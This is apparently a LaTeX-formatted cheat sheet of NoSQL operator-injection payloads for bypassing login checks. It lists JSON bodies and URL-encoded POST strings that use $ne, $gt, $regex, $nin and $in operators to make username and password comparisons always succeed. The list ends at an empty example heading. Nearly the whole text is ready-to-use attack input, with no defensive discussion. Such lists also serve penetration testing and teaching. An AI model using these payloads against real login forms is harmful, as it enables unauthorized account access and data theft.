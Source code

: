 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}
# Original
{"username": "admin", "password": "pass"}

# Operator injection
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt": ""}, "password": {"$gt": ""}}
{"username": {"$regex": "^admin"}, "password": {"$ne": "wrong"}}
\end{lstlisting}

\section{Authentication Bypass}

\subsection{Basic Bypass Techniques}

\subsubsection{URL-Encoded POST Data}

\begin{lstlisting}
# Bypass with $ne
username[$ne]=toto&password[$ne]=toto

# Bypass with regex
username[$regex]=a.*&password[$ne]=lol

# Bypass with range
username[$gt]=admin&username[$lt]=test&password[$ne]=1

# Bypass with $nin
username[$nin][]=admin&username[$nin][]=test&password[$ne]=toto
\end{lstlisting}

\subsubsection{JSON Data}

\begin{lstlisting}
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt": ""}, "password": {"$gt": ""}}
{"username": {"$in": ["admin", "administrator"]}, "password": {"$ne": ""}}
\end{lstlisting}

\newpage
\subsection{Authentication Bypass Example}
\end{document}
